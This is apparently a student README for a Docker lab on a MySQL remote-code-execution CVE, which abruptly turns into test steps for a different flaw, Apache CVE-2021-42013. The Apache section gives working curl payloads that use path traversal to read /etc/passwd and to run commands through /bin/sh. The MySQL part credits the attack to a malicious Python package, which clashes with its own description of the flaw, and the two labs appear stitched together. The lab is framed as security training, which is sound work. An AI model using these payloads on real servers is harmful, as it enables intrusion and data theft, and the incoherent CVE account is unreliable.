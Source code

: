 # Urbank-61-CSC180CVEProject
# CVE-2025-21497 Lab: Simulating Remote Code Execution via MySQL Vulnerability

## CVE Summary

CVE-2025-21497 is a critical vulnerability in MySQL that allows remote code execution (RCE) by exploiting insecure configuration and inadequate privilege handling in the affected version. The vulnerability exists in MySQL Server versions prior to 8.0.40.

- ✅ **Exploit vector**: Remote connection with misconfigured privileges
- ❗ **Impact**: Code execution on MySQL server, data corruption, and unauthorized access
- ✅ **Fixed in**: MySQL 8.0.40 and later

---

## Building Labs from CVEs — Prompt Checklist

To create a lab from this CVE, the following steps were completed:

### 1. Vulnerability Details

- **CVE**: 2025-21497
- **Type**: Remote Code Execution (RCE)
- **Software**: MySQL versions prior to 8.0.40

### 2. Learning Objectives

- Understand how privilege misconfigurations can lead to code execution.
- Explore how attackers can exploit misconfigurations to escalate privileges on a MySQL server.
- Demonstrate effective mitigation and patching techniques.

### 3. Environment Setup

- **Tooling**: Docker, Docker Compose
- **Language/Environment**: Python, MySQL, Bash

### 4. ⚙️ Exploit Method

- A simulated attack is executed via a misconfigured MySQL installation. By using Docker, this vulnerability is safely replicated in a contained environment for educational purposes.

### 5. Remediation & Mitigation

- Upgrade to MySQL 8.0.40 or later.
- Enforce secure configurations and restrict privileged access.

---

## Lab: Simulating CVE-2025-21497 in Docker

This lab demonstrates a simulated RCE attack on MySQL via an improperly configured MySQL server.

### What It Does

- Builds a vulnerable MySQL container.
- Simulates an attack exploiting a misconfiguration.
- Confirms vulnerability by attempting an unauthorized connection.

---

## Folder Structure

    cve-2025-21497-lab/
    ├── docker-compose.yml
    ├── Dockerfile
    ├── install.sh
    ├── requirements.txt
    └── malicious_pkg/
        └── setup.py

---

✅ Running the Lab

In your terminal, from the root of the lab folder:

docker-compose build
docker-compose up

---

🧾 Expected Output

[*] Starting MySQL RCE simulation...
[+] MySQL RCE triggered! Dropping shell...
[*] Simulation complete.

To verify the exploit:

docker exec -it mysql-rce-lab cat /tmp/mysql_rce_success.txt

🎉 Success!

You've reproduced a simulated MySQL RCE vulnerability by combining insecure server config and malicious dependencies.
🔐 Mitigation Strategies

    Run MySQL with least privilege and secured user grants

    Pin dependencies using hashes or specific versions

    Avoid installing untrusted packages or dev tools in production

    Use tools like:

        pip-audit

        pip install --require-hashes

    Monitor privilege configurations and exposed services

📚 Next Steps

    Add a detection challenge (Can users find the exploit path?)

    Extend to simulate a MySQL root user compromise

    Build a hardened version with secure configs and signed packages

🙏 Credits

This lab was developed for educational and training purposes only to simulate CVE-2025-21497.

✅ Next Steps to Test the Lab:
🔎 1. Verify Apache Server is Running

In a browser or with curl, check if the Apache server is up:

curl http://localhost:8080

You should see some default page or Apache test content. If you see a response, the server is reachable.
🔥 2. Test the CVE-2021-42013 Exploit

This vulnerability is a path traversal and remote code execution flaw in Apache 2.4.49 (and 2.4.50 when misconfigured).

Run a curl command like this to test for path traversal:

curl --path-as-is "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

If the server is vulnerable, it will return the contents of /etc/passwd.
💻 3. Test for Remote Code Execution (RCE) (optional but powerful)

If CGI is enabled and Apache is misconfigured, you can try RCE:

curl --path-as-is -d 'echo; id' "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

Or use a more direct payload like:

curl --path-as-is -d 'echo; cat /etc/passwd' http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh

🛠️ 4. Remediation Testing

Once you've confirmed the exploit works, test that it no longer works after applying the fix (like upgrading Apache or disabling CGI).

Always practice responsible disclosure. Never publish malicious packages to public repositories or deploy insecure configurations in production environments.


